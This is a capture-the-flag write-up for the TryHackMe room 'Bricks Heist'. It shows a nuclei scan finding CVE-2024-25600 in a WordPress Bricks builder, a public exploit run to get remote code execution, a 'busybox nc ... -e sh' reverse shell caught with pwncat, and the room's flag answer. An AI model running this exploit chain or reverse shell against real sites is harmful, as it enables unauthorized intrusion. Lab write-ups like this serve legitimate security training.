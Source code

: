 ```yaml
---
layout: doc
---
```

# TryHack3M: Bricks Heist

<div style="display: flex; justify-content: center;">
  <img src="/thm/tryhack3mbricksheist_logo.png" alt="HTB" style="width: 30%;">
</div>

# Room description

Room: https://tryhackme.com/r/room/tryhack3mbricksheist

Crack the code, command the exploit! Dive into the heart of the system with just an RCE CVE as your key.

Difficulty: **Easy**

# Write-up
```shell
$ nuclei -target bricks.thm
......
[CVE-2024-25600] [http] [critical] https://bricks.thm/wp-json/bricks/v1/render_element
......
```

search CVE-2024-25600 exploit
https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT

```shell
$ python3 CVE-2024-25600.py            
Traceback (most recent call last):
  File "/home/kali/Desktop/exp.py", line 13, in <module>
    from alive_progress import alive_bar
ModuleNotFoundError: No module named 'alive_progress'

$ pip3 install alive_progress
```
Exploit
```shell
python3 CVE-2024-25600.py -u https://bricks.thm/
...
[*] Checking if the target is vulnerable
[+] The target is vulnerable
[*] Initiating exploit against: https://bricks.thm/
[*] Initiating interactive shell
[+] Interactive shell opened successfully
Shell> id
uid=1001(apache) gid=1001(apache) groups=1001(apache)

Shell> busybox nc 10.11.74.102 9001 -e sh
```
use "BusyBox nc -e" method upgrage to new shell

Listener: use pwncat to catching a victim reverse shell
```shell
$ pip install pwncat-cs
$ pwncat-cs -lp 9001
(local) pwncat$ back
(remote) apache@tryhackme:/data/www/default$ ls
6xxxxa.txt  wp-activate.php       wp-content         wp-mail.php
index.php                             wp-admin              wp-cron.php        wp-settings.php
kod                                   wp-blog-header.php    wp-includes        wp-signup.php
license.txt                           wp-comments-post.php  wp-links-opml.php  wp-trackback.php
phpmyadmin                            wp-config-sample.php  wp-load.php        xmlrpc.php
readme.html                           wp-config.php         wp-login.php
(remote) apache@tryhackme:/data/www/default$ cat 6xxxxa.txt 
THM{fl46_6xxxxa}
```


## Answer the questions below

What is the content of the hidden .txt file in the web folder?\

`THM{fl46_6xxxxa}`
